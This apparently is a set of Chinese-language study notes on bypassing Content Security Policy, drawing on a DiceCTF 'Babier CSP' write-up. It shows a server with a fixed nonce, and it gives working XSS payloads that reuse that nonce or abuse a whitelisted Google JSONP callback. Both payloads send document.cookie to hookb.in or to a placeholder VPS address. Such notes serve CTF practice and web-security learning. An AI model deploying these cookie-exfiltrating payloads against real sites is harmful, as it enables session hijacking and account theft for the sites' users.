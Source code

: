 # 文章
[Content Security Policy (CSP) - HTTP | MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
:::info
注意：<br />If both a [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) header and a [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) header are present in the same response, both policies are honored. The policy specified in Content-Security-Policy headers is enforced while the Content-Security-Policy-Report-Only policy generates reports but is not enforced.
:::
# 一些绕过
### 固定的nonce
[DiceCTF: Babier CSP](https://debugmen.dev/ctf-writeup/2021/02/09/babiercsp.html)<br />使用了`const`使得nonce为固定值，直接在javascript标签内加入nonce即可
```javascript
const NONCE = crypto.randomBytes(16).toString('base64');
app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})
```
![image.png](./images/20231017_2355064362.png)
```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==> document.location='https://hookb.in/JKzebMwQPxIJPPWVoqdq/?c=' +document.cookie </script>

<script nonce=g+ojjmb9xLfE+3j9PsP/Ig==>window.location.href="http://vpsip:port/?q="+document.cookie</script>
```
### 限制域名
例如
```html
default-src'self'; script-src 'self' *.google.com;connect-src *
```
可以找寻`*.google.com`的域名来调用一些东西<br />[https://accounts.google.com/o/oauth2/revoke?callback](https://accounts.google.com/o/oauth2/revoke?callback)
```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href='https://hookb.in/9XwRzarbRDS600eMoL7d?'%2bdocument.cookie;"></script>
```
